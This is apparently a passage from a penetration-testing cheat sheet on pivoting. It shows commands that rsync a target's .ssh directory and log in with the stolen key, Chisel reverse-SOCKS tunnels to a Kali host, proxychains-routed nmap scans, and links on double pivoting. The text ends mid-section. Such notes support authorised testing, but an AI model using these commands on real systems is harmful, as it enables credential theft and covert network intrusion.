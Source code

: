 ```bash
chmod 600 username
```

```bash
rsync -av .ssh/ rsync://$ip/username/.ssh
```

```bash
ssh -i username username@$ip
```

### Static Binaries/Tools for Pivoting

[https://github.com/ernw/static-toolbox/releases](https://github.com/ernw/static-toolbox/releases)

### Metasploit (route add/portfwd)

[https://docs.metasploit.com/docs/using-metasploit/intermediate/pivoting-in-metasploit.html](https://docs.metasploit.com/docs/using-metasploit/intermediate/pivoting-in-metasploit.html)

### Chisel Dynamic Port Forwarding

Server

```jsx
./chisel_1.7.7_linux_amd64 server -p 8000 --reverse
```

Client

```jsx
./chisel client $kali_ip:8000 R:socks
```

/etc/proxychains4.conf

```bash
socks5 	127.0.0.1 1080
```

Nmap

```jsx
proxychains nmap -Pn -sT -n --top-ports 10 $ip
```

Double Pivoting

[https://wikihak.com/double-pivoting-with-chisel/](https://wikihak.com/double-pivoting-with-chisel/)

[https://www.hdysec.com/double-pivoting-both-metasploit-and-manual/](https://www.hdysec.com/double-pivoting-both-metasploit-and-manual/)

Kali

```jsx
./chisel_1.7.7_linux_amd64 server --socks5 -p 8000 --reverse
```

Mid 1
